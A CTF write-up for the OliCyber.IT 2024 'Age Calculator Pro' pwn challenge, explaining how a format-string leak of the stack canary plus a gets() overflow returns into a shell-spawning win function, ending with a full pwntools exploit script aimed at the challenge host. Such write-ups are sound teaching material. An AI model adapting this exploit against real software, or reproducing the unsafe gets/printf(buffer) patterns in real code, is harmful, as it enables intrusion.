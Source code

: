 # OliCyber.IT 2024 - Regional CTF

## [pwn] Age Calculator Pro (26 solves)

I no longer want to remember how old I am...

`nc agecalculatorpro.challs.external.open.ecsc2024.it 38103`

Author: Giulia Martino <@Giulia>

## Overview

The challenge consists in a very simple binary. It first calls an `init` function, used to set buffering and print a big banner. Then it asks the user to provide a name and prints it back asking the user for its birth year. It converts the birth year to an integer and finally, it prints the user's age. By looking around the binary (e.g. with Ghidra), it is possible to spot a `win` function which spawns a shell for us. The binary is not PIE but has canary enabled.

```console
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

The first thing to note about this challenge is the usage of the `gets` function to get inputs from the user. From `man gets`:

```text
DESCRIPTION
       Never use this function.
```

There's a reason why the Linux Manual is suggesting not to use `gets`: this function reads a string from standard input, but stops **only** when it finds a `\n` or `EOF`, no matter how big is the buffer it is reading into. There is no way to tell `gets` to stop after reading a fixed amount of characters; this can result in buffer overflows when the input to `gets` is a string bigger than the buffer used to store it.  

The function `gets` is used two times to read from `stdin` to a stack buffer. Given the buffer overflow, we can immediately think of overwriting the return address inside the stack with the address of the `win` function. Considering the binary is not PIE, we don't even need a leak, we can just hardcode the `win` address.  

There's an issue to address though: the binary has canary protection enabled. If we just overflow past the stack buffer with random bytes until we get to the return address, we will end up overwriting the canary as well and the program will terminate because of a `stack smashing detected`. We need some way to leak the canary so that we can overwrite it with its own value, tricking the stack smashing detection into thinking that we haven't written on it at all.  

Looking again at the binary, we can note the vulnerable usage of `printf`:

```c
printf(buffer);
```

Since `buffer` is a controlled array, we get a format string vulnerability. If we insert format specifiers inside our controlled buffer, `printf` will search its parameters inside the stack (even though it doesn't have any), giving us a way to leak stack blocks.  

The easiest approach is to just spam a lot of `%p` specifiers until we actually get a canary leak. The canary is composed by a 7-byte random sequence + a null byte, so it is easy to guess which of the leaks is actually a canary. But it is also possible to use the debugger to inspect the stack and correctly check the matching.

![printf leaks](writeup/printf_leaks.png)

In the example above, the canary is the 17th leak: `0xf2e23800574f2c00`.  

Lastly, we need to know how far is the canary from the start of our input, so that we can align all the stack blocks correctly. A possible way consists in putting some recognizable string inside the input buffer (e.g. `AAAAAAAA`), then looking at the stack with a debugger and compute the canary offset. In the screenshot below, a breakpoint was set right after the second call to `gets` inside `main`; `gdb` + [`pwndbg`](https://github.com/pwndbg/pwndbg) combo is used.

![stack layout](writeup/stack_layout.png)

The pink line indicates the start of the input buffer; the blue line indicates the canary; the green one indicates `main`'s return address. We can compute the distance between the start of our input and the canary by just subtracting their addresses:

```console
In [1]: hex(0x7fffffffdd88 - 0x7fffffffdd40)
Out[1]: '0x48'
```

We should also note that there's a stack block in between the canary and the return address. Now we can just build our payload by chaining `0x48` padding bytes + leaked canary + `0x8` padding bytes + `win` address.

## Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

HOST = os.environ.get("HOST", "agecalculatorpro.challs.external.open.ecsc2024.it")
PORT = int(os.environ.get("PORT", 38103))

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
exe = context.binary = ELF(os.path.join(os.path.dirname(__file__), 'build/age_calculator_pro'))

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote(HOST, PORT)
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

'''.format(**locals())

io = start()

format_string = b"%p." * 20
io.sendlineafter(b"What's your name?\n", format_string)
res = io.recvuntil(b"what's your birth year?", drop=True)
canary = int(res.split(b'.')[16], 16)
print(f"[+] canary: {hex(canary)}")

payload = b"A" * 0x48
payload += p64(canary)
payload += p64(0x0)
payload += p64(exe.sym.win)
res = io.sendline(payload)
io.recvuntil(B"years old!\n")
time.sleep(0.5)
io.sendline(b"cat flag")
res = io.clean(0.5)
io.close()
print(res.decode())

```
